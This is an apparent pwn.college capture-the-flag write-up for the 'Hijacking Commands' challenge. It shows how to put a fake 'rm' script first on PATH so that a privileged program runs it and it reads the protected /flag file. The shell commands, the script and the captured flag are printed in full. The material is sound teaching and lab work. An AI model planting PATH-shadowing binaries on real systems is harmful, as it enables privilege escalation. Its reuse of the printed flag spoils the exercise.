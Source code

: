 # Hijacking Commands
Find the flag without `/flag` getting deleted.

## My solve
**Flag:** `pwn.college{oWTaHWWsFBj9rx2L_eW7pKeCsg8.QX3cjM1wSN3AzNzEzW}`

Here we have to make sure that the `rm` command encountered by the shell is ours and not the default one. We do this by making that the folder our rm resides in is before the normal one:
```console
hacker@path~hijacking-commands:~$ nvim rm
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ export PATH="/home/hacker:$PATH"
hacker@path~hijacking-commands:~$ which rm
/home/hacker/rm
hacker@path~hijacking-commands:~$ /challenge/run 
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{oWTaHWWsFBj9rx2L_eW7pKeCsg8.QX3cjM1wSN3AzNzEzW}
```

rm:
```bash
/run/dojo/bin/cat /flag
```

## What I learned
Reinforced previous concepts

## References 
None.